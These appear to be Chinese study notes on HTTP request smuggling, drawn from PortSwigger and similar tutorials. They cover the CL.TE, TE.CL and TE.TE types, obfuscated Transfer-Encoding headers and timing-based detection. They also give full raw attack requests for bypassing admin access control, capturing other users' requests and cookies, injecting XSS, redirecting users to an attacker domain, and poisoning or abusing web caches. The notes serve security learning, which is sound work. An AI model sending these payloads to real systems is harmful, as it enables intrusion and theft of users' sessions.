




- 存在工具可以检测请求走私漏洞
  - https://github.com/anshumanpattnaik/http-request-smuggling
  - https://cloud.tencent.com/developer/article/1868306


# 郑师傅指导
- 请求走私难度本身比较大 不过这方面的意识还是可以加深的，另外走私可能得对应到不同的请求里去尝试

# http请求走私漏洞资料收集
## 参考资料：https://portswigger.net/web-security/request-smuggling
  - 本地：What is HTTP request smuggling_ Tutorial & Examples _ Web Security Academy.pdf
- 请求走私主要出现在用户发送的请求需经过多个web服务器转发后才能到达实际处理该请求的web服务器的情况下
- 在中间多个web服务器转发的过程中，不同服务器对请求的边界解析不同，当存在多个连续请求时，可能导致请求走私
- http协议中规定请求边界的请求头字段有两种Content-Length: 和Transfer-Encoding: 多个中间服务器对该两种请求头解析的支持情况可能不同，导致对同一请求的边界解析结果不同，导致前一个请求中部分请求体被作为后一个请求的请求头部进行解析，从而导致请求解析错误
  

- 注意TE.TE类型的漏洞
  - 当前端和后端服务器都支持 Transfer-Encoding 标头，但是可以通过以某种方式混淆标头来诱导其中一个服务器不处理它。如下
```bash
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked

```
- 这些技术中的每一种都与 HTTP 规范有细微的差别。实现协议规范的实际代码很少以绝对精度遵守协议规范，不同的实现通常会容忍规范的不同变化。要发现 TE.TE 漏洞，需要找到 Transfer-Encoding 标头的一些变体，以便只有前端或后端服务器中的一个处理它，而另一个服务器忽略它。
- 根据是否可以诱导前端或后端服务器不处理混淆的 Transfer-Encoding 标头，攻击的其余部分将采用与 CL.TE 或 TE.CL 漏洞相同的形式已经描述了。
  - 即当在请求中包含混淆的Transfer-Encoding 标头和正常的CL标头，当前端或后端之一不处理混淆的TE时，该端即改为处理CL，从而形成CL.TE 或 TE.CL


## 更多种类型的http请求走私漏洞
- 资料：https://websec.readthedocs.io/zh/latest/vuln/httpSmuggling.html
- 本地：4.17. HTTP 请求走私 — Web安全学习笔记 1.0 文档.pdf
- 根据上述资料，http请求走私漏洞可以分为如下几种类型
  - CL不为0的GET请求 
  - CL-CL
  - CL-TE
  - TE-CL
  - TE-TE
- 关于 Content-Length: 和Transfer-Encoding: 的使用，见 网络协议\http.md


## 关于请求走私漏洞的更详细的分析 结合了上述资料
- https://paper.seebug.org/1048/
  - 协议层的攻击——HTTP请求走私.pdf


## 请求走私漏洞变体相关资料
- https://www.freebuf.com/articles/web/331634.html
  - HTTP走私及变体总结.pdf
- 该文章中给出nginx在openresty指定版本以及nodejs特定版本存在的请求走私漏洞问题
  - 


## 针对不同种类走私漏洞的实际检测案例，同时讲解了检测方法
- https://www.freebuf.com/column/221488.html
  - HTTP走私漏洞分析.pdf


## 请求走私漏洞成因的视角 + 检测请求走私漏洞的和注意点(portswigger的翻译) 
- https://www.freebuf.com/articles/web/243652.html
- 详细笔记+实验：HTTP请求走私.pdf


- 由于HTTP规范提供了两种不同的方法来指定HTTP消息的长度，因此单个消息可能会同时使用这两种方法，从而使它们彼此冲突。HTTP规范试图通过指出如果Content-Length和Transfer-Encoding标头同时存在，Content-Length则应忽略标头来防止此问题。当仅使用一台服务器时，这足以避免歧义，但是当将两个或多个服务器链接在一起时，这并不能避免歧义。在这种情况下，可能由于两个原因而出现问题：

- 某些服务器不支持 Transfer-Encoding 请求中的标头。
- Transfer-Encoding 如果以某种方式混淆了标头，则可能会诱使 某些确实支持标头的服务器不对其进行处理。

- 如果前端服务器和后端服务器相对于（可能是混淆的）Transfer-Encoding标头而言行为不同，则它们可能在连续请求之间的边界上存在分歧，从而导致请求走私漏洞。


# 挖掘http请求走私漏洞
- 参考资料 https://portswigger.net/web-security/request-smuggling/finding 
  - 本地：Finding HTTP request smuggling vulnerabilities _ Web Security Academy.pdf
- 针对 CL.TE 类型的http请求走私漏洞，发送如下请求，若响应产生延迟，则说明漏洞存在
  - 前端服务器将Content-Length作为请求边界依据，故发送给后端服务器时，请求内容中将不包含X，后端服务器中将Transfer-Encoding作为请求边界依据，因为没有x，故后端服务器会的等待请求体中的下一个chunk，从而导致响应延迟
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
  - 经测试unms未产生延迟
- 针对TE.CL类型http请求走私漏洞，发送如下请求，若响应延迟，则漏洞存在
  - 由于前端服务器使用 Transfer-Encoding 标头，它只会转发此请求的一部分，省略 X。后端服务器使用 Content-Length 标头，期望消息体中有更多内容，并等待剩余内容到达。这将导致可观察到的时间延迟。
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
  - 经测试unms未产生延迟
- 若通过上述两请求定位了疑似的请求走私漏洞，可以通过下面的请求进一步确认请求走私
  - 例如下述请求正常访问时响应200，返回部分查询信息
  ```http
  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11

  q=smuggling
  ```
  - 针对CL.TE类型的请求走私漏洞，发送如下请求
  ```http
  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 49
  Transfer-Encoding: chunked

  e
  q=smuggling&x=
  0

  GET /404 HTTP/1.1
  Foo: x
  ```
  - 由于前端服务器将cl作为请求长度判断依据，故整个请求体可以整体传给后端服务器，后端服务器将te作为请求长度判断依据，故不会将GET开头的部分作为当前请求的请求体，而是将其作为下一个请求的请求头，此时再次发送上述正常的请求，则在后端服务器中，请求变成了如下，故原本正常的请求会报404，所以根据响应情况可以断定当前请求走私漏洞的类型
  ```http
  GET /404 HTTP/1.1
  Foo: xPOST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  
  q=smuggling
  ```
  - 同理，使用下述请求可以测试TE.CL类型的http请求走私漏洞，
  ```http
  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 4
  Transfer-Encoding: chunked

  7c
  GET /404 HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 144

  x=
  0
  ```
  - 若该类型漏洞存在，则再次发送正常的请求时，后端会将其解析为如下请求，并响应404而非200，由此可以判断漏洞性质
  ```http
  GET /404 HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 146

  x=
  0

  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11

  q=smuggling
  ```
# 如何利用请求走私漏洞
- 资料：https://portswigger.net/web-security/request-smuggling/exploiting
  - 本地：Exploiting HTTP request smuggling vulnerabilities _ Web Security Academy.pdf
- 前端服务器负责授权验证，后端服务器仅用于处理前端服务器传入的请求时，可以通过请求走私，将两个请求合并为一个请求，从而通过前端服务器校验，后端服务器处理时会将该请求作为两个请求分别处理，从而绕过前端服务器的权限控制，例如下述请求中/home是前端允许请求的路径，/admin是前端仅允许授权后访问的路径，通过发送下述请求，可以通过前端校验，且在后端分别执行/home和/admin两个路径的访问(前端使用cl，故将其视为一整个请求，后端使用te，故会将请求视作两个进行处理)
  ```http
  POST /home HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 62
  Transfer-Encoding: chunked

  0

  GET /admin HTTP/1.1
  Host: vulnerable-website.com
  Foo: xGET /home HTTP/1.1
  Host: vulnerable-website.com
  ```
- 前端服务器将请求转发到后端的过程中可能修改请求中的某些字段，例如增加相关请求头，此时后端服务器接收到请求后会验证此类增加的字段，若字段不正确，会导致请求无法在后端执行，故此时若想利用请求走私使得被走私的请求被后端服务器处理，需要在被走私的请求中设置前端会增加的字段，故需要弄清前端对请求进行了哪些修改，文中提到一种方式可以弄清前端修改了哪些字段  
  - 详见文章
- 使用请求走私绕过服务器对客户端的验证，实际开发过程中，用户端可能通过ssl证书验证对应服务端是否是合规的服务端，进一步的部分站点也会根据利用ssl验证发送请求的客户端的身份，主要方式是在请求中添加非标准的http请求头从而传输客户端的CN（common name）如下述请求
  ```http
  GET /admin HTTP/1.1
  Host: normal-website.com
  X-SSL-CLIENT-CN: carlos
  ```
  - 故可以在走私的请求中设置此类非标准请求头，从而绕过后端对客户端的此类验证
  ```http
  POST /example HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: x-www-form-urlencoded
  Content-Length: 64
  Transfer-Encoding: chunked

  0

  GET /admin HTTP/1.1
  X-SSL-CLIENT-CN: administrator
  Foo: x
  ```
- 请求走私漏洞可以用于捕获其他用户的请求，前提是目标网站提供相关功能，可以将用户提交的信息进行存储并显示（例如博客的评论体提交功能），可以将此类请求进行请求走私，从而将此类请求拼接到下一个请求的头部，从而在后端处理时，触发被走私的请求的功能，将下一个请求的内容存储并显示，当然存储的数据具有一定限制，例如会被&符号截断
  - 例如下述请求可以将请求体中comment=之后的数据保存显示
  ```http
  POST /post/comment HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 154
  Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

  csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
  ```
  - 则构造如下请求走私，将上述请求作为下一个请求的头部
  ```http
  GET / HTTP/1.1
  Host: vulnerable-website.com
  Transfer-Encoding: chunked
  Content-Length: 324

  0

  POST /post/comment HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 400
  Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

  csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
  ```
  - 故当下一个请求触发时，后端接收到的请求如下，该请求内容被置为comment=之后，从而被记录，但记录内容会被&符号截断
  ```http
  POST /post/comment HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 400
  Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

  csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
  Host: vulnerable-website.com
  Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
  ... 
  ```
- 请求走私可以用于实现反射型xss的漏洞利用，例如反射型xss的漏洞点位于User-Agent: 可以使用如下请求进行利用，即将走私的请求拼接到下一个用户请求的头部
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 63
  Transfer-Encoding: chunked

  0

  GET / HTTP/1.1
  User-Agent: <script>alert(1)</script>
  Foo: X
  ```
- 请求走私可以利用网站的重定向机制，将用户的网页重定向到外部域
  - 如下请求将根据请求的host字段进行重定向，即将normal-website.com的访问重定向到https://normal-website.com/home/
  ```http
  GET /home HTTP/1.1
  Host: normal-website.com

  HTTP/1.1 301 Moved Permanently
  Location: https://normal-website.com/home/
  ```
  - 在此基础上，利用如下请求实施请求走私，将之后用户的访问重定向到攻击者的域名
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 54
  Transfer-Encoding: chunked

  0

  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: X
  ```
  - 用户再次访问时，产生如下重定向
  ```http
  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: XGET /scripts/include.js HTTP/1.1
  Host: vulnerable-website.com

  HTTP/1.1 301 Moved Permanently
  Location: https://attacker-website.com/home/
  ```
  - 在某些情况下，您可能会遇到使用路径为 Location 标头构造根相对 URL 的服务器级重定向，如下
  ```http
  GET /example HTTP/1.1
  Host: normal-website.com

  HTTP/1.1 301 Moved Permanently
  Location: /example/
  ```
  - 如果服务器允许您在路径中使用相对于协议的 URL，这可能仍可用于开放重定向
  ```http
  GET //attacker-website.com/example HTTP/1.1
  Host: vulnerable-website.com

  HTTP/1.1 301 Moved Premanently
  Location: //attacker-website.com/example/
  ```
- 在上述基础上，通过请求走私实施web缓存中毒，从而实现持续性的重定向攻击，例如如下请求将导致web缓存中毒
  - 在上述攻击的变体中，可能会利用 HTTP 请求走私来执行 Web 缓存中毒攻击。如果前端基础架构的任何部分执行内容缓存（通常出于性能原因），则可能会使用异地重定向响应毒害缓存。这将使攻击持续存在，影响随后请求受影响 URL 的任何用户。 在此变体中，攻击者将以下所有内容发送到前端服务器：
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 59
  Transfer-Encoding: chunked

  0

  GET /home HTTP/1.1
  Host: attacker-website.com
  Foo: XGET /static/include.js HTTP/1.1
  Host: vulnerable-website.com
  ```
  - 走私的请求到达后端服务器，后端服务器像以前一样使用异地重定向进行响应。前端服务器根据它认为是第二个请求中的 URL（即 /static/include.js）缓存此响应
  ```http
  GET /static/include.js HTTP/1.1
  Host: vulnerable-website.com

  HTTP/1.1 301 Moved Permanently
  Location: https://attacker-website.com/home/
  ```
- 在另一种攻击变体中，您可以利用 HTTP 请求走私来执行 Web 缓存欺骗。这与 Web 缓存中毒攻击的工作方式类似，但目的不同。
  - Web缓存中毒和Web缓存欺骗有什么区别？ 在 Web 缓存中毒中，攻击者使应用程序在缓存中存储一​​些恶意内容，并将这些内容从缓存中提供给其他应用程序用户。 
  - 在网络缓存欺骗中，攻击者使应用程序将属于另一个用户的一些敏感内容存储在缓存中，然后攻击者从缓存中检索这些内容。
  - 在此变体中，攻击者走私一个请求，该请求返回一些敏感的用户特定内容。例如
  ```http
  POST / HTTP/1.1
  Host: vulnerable-website.com
  Content-Length: 43
  Transfer-Encoding: chunked

  0

  GET /private/messages HTTP/1.1
  Foo: X
  ```
  - 来自另一个用户的下一个转发到后端服务器的请求将附加到走私的请求中，包括会话 cookie 和其他标头。例如：
  ```http
  GET /private/messages HTTP/1.1
  Foo: XGET /static/some-image.png HTTP/1.1
  Host: vulnerable-website.com
  Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
  ...
  ```  
  - 后端服务器以正常方式响应此请求。请求中的 URL 用于用户的私人消息，并且请求是在受害者用户会话的上下文中处理的。前端服务器根据它认为是第二个请求中的 URL（即 /static/some-image.png）缓存此响应
  ```http
  GET /static/some-image.png HTTP/1.1
  Host: vulnerable-website.com

  HTTP/1.1 200 Ok
  ...
  <h1>Your private messages</h1>
  ...
  ```
  - 然后攻击者访问静态 URL 并接收从缓存返回的敏感内容。 这里的一个重要警告是，攻击者不知道将缓存敏感内容的 URL，因为这将是受害者用户在走私请求生效时碰巧请求的任何 URL。攻击者可能需要获取大量静态 URL 才能发现捕获的内容。

# http请求走私的两个视角
- 似乎使用Connection: close或Connection: keep-alive是否会对上述效果产生影响，实际测试过程中最好分别进行测试

- 请求发送到前端服务器，前端服务器将请求视为整体，传输给后端，后端将部分请求视为整体进行处理，导致另一部分存在于缓存中，并被拼接到下一个请求的首部
  - 该视角下的CL.TE的实例中，有的使用Connection: keep-alive 有的使用Connection: close 所以在实际测试过程中，可以两个请求头分别尝试
  - 示例1，使用Connection: keep-alive
    - 
  - 示例2，使用Connection: close
    - 

- 请求发送到前端服务器，前端服务器将请求视为整体，传输给后端，后端将该请求视为两个请求分别进行处理，也返回两个响应体
  - 从该视角来看，如果前端负责授权验证，将请求隐藏到请求体中通过前端校验，并在后端出发两个请求，则也具有请求走私的价值
  - https://www.freebuf.com/articles/web/331634.html 资料中提到的HAProxy——http请求走私漏洞（CVE-2021-40346）中，就是由于前端服务器中正常发送请求头，而后端服务器中由于解析Connection:字段时存在溢出漏洞，导致将前端发送过来的Connection:字段解析为Connection:0，所以前端发送过来的请求被后端解析为两个请求，请求体中隐藏的请求被走私到后端执行，从而绕过了校验
  - 
  - 该视角下，攻击请求发送后，会得到返回两个响应包，但是需要判断该两个相应包分别来自哪里，该漏洞的模型是前端将请求看作一个整体发送给后端，后端将其作为两个请求处理(注意此处直接处理，与另一个视角中进行缓存不同)，从而实现对前端验证机制的绕过，所以只有当两个相应包均来自后端时，才能证明走私成功，若两个响应包中有一个来自前端，说明此时前端已经将攻击请求视为两个请求进行处理，上述研究过程中，存在大量一个请求返回两个相应包的情况，但注意返回的第二个响应包均来自前端openresty，至少说明对应请求数据未被走私到后端


  